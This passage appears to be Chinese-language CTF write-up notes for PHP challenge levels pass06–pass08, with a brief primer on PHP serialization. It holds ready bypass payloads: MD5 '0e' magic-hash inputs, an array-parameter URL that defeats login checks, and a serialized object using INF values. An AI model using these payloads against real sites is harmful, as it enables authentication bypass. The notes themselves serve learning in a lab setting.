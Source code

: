 ## pass06

强制类型转换

穷举

```
240610708---aawBzC
```

`240610708`一次md5==`aawBzC`两次md5

`aawBzC`两次md5都是0e开头

## pass07

数组绕过

```
/pass-07.php?user[]=1&pass[]=2
```

## pass08

有string强制类型转换，且参数长度有限制

序列化和反序列化

php特定数据类型

```
POST
auth=O:4:"auth":2:{s:4:"user";d:INF;s:4:"pass";d:INF;}
```





## 小知识：

### 序列化&反序列化

```
<?php 

class auth{
	public $user;
	public $pass;

}

//把auth类实例化
$a = new auth();
$a->user="haha";
$a->pass="nihao";

echo serialize($a);
//进行序列化输出：
//O:4:"auth":2:{s:4:"user";s:4:"haha";s:4:"pass";s:5:"nihao";}
//（O对象，名auth长度为4，属性个数2，键为user类型string，值为haha，键为pass，值为nihao）


//反序列化
$str1 = 'O:4:"auth":2:{s:4:"user";s:5:"haha1";s:4:"pass";s:6:"nihao2";}';
$b = unserialize($str1);

echo $b->user;
//输出haha
```